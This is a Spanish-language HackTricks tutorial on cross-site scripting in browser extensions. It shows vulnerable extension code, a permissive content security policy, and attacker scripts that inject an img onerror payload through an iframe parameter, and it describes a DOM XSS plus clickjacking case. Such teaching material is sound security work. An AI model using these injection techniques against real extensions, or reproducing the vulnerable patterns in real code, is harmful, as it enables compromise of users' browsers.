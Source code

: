 # BrowExt - Ejemplo de XSS

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Cross-Site Scripting (XSS) a través de Iframe

En esta configuración, se implementa un **script de contenido** para instanciar un Iframe, incorporando una URL con parámetros de consulta como la fuente del Iframe:
```javascript
chrome.storage.local.get("message", result => {
let constructedURL = chrome.runtime.getURL("message.html") +
"?content=" + encodeURIComponent(result.message) +
"&redirect=https://example.net/details";
frame.src = constructedURL;
});
```
Una página HTML accesible públicamente, **`message.html`**, está diseñada para agregar dinámicamente contenido al cuerpo del documento según los parámetros en la URL:
```javascript
$(document).ready(() => {
let urlParams = new URLSearchParams(window.location.search);
let userContent = urlParams.get("content");
$(document.body).html(`${userContent} <button id='detailBtn'>Details</button>`);
$('#detailBtn').on('click', () => {
let destinationURL = urlParams.get("redirect");
chrome.tabs.create({ url: destinationURL });
});
});
```
Un script malicioso se ejecuta en la página de un adversario, modificando el parámetro `content` de la fuente del Iframe para introducir una **carga útil XSS**. Esto se logra actualizando la fuente del Iframe para incluir un script dañino:
```javascript
setTimeout(() => {
let targetFrame = document.querySelector("iframe").src;
let baseURL = targetFrame.split('?')[0];
let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>";
let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`;

document.querySelector("iframe").src = maliciousURL;
}, 1000);
```
Una Política de Seguridad de Contenido demasiado permisiva como:
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
permite la ejecución de JavaScript, haciendo que el sistema sea vulnerable a ataques XSS.

Un enfoque alternativo para provocar el XSS implica crear un elemento Iframe y establecer su fuente para incluir el script dañino como el parámetro `content`:
```javascript
let newFrame = document.createElement("iframe");
newFrame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>");
document.body.append(newFrame);
```
## DOM-based XSS + ClickJacking

Este ejemplo fue tomado de la [publicación original](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

El problema principal surge de una vulnerabilidad de Cross-site Scripting (XSS) basada en DOM ubicada en **`/html/bookmarks.html`**. El JavaScript problemático, parte de **`bookmarks.js`**, se detalla a continuación:
```javascript
$('#btAdd').on('click', function() {
var bookmarkName = $('#txtName').val();
if ($('.custom-button .label').filter(function() {
return $(this).text() === bookmarkName;
}).length) return false;

var bookmarkItem = $('<div class="custom-button">');
bookmarkItem.html('<span class="label">' + bookmarkName + '</span>');
bookmarkItem.append('<button class="remove-btn" title="delete">x</button>');
bookmarkItem.attr('data-title', bookmarkName);
bookmarkItem.data('timestamp', (new Date().getTime()));
$('section.bookmark-container .existing-items').append(bookmarkItem);
persistData();
});
```
Este fragmento obtiene el **valor** del campo de entrada **`txtName`** y utiliza **concatenación de cadenas para generar HTML**, que luego se agrega al DOM utilizando la función `.append()` de jQuery.

Normalmente, la Política de Seguridad de Contenidos (CSP) de la extensión de Chrome evitaría tales vulnerabilidades. Sin embargo, debido a la **relajación de CSP con ‘unsafe-eval’** y el uso de los métodos de manipulación del DOM de jQuery (que emplean [`globalEval()`](https://api.jquery.com/jquery.globaleval/) para pasar scripts a [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) al insertar en el DOM), la explotación sigue siendo posible.

Si bien esta vulnerabilidad es significativa, su explotación generalmente depende de la interacción del usuario: visitar la página, ingresar una carga útil de XSS y activar el botón “Agregar”.

Para mejorar esta vulnerabilidad, se explota una vulnerabilidad secundaria de **clickjacking**. El manifiesto de la extensión de Chrome muestra una extensa política de `web_accessible_resources`:
```json
"web_accessible_resources": [
"html/bookmarks.html",
"dist/*",
"assets/*",
"font/*",
[...]
],
```
Notablemente, la página **`/html/bookmarks.html`** es susceptible a framing, por lo tanto vulnerable a **clickjacking**. Esta vulnerabilidad se aprovecha para enmarcar la página dentro del sitio de un atacante, superponiéndola con elementos DOM para rediseñar la interfaz de manera engañosa. Esta manipulación lleva a las víctimas a interactuar con la extensión subyacente de manera involuntaria.

## Referencias

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
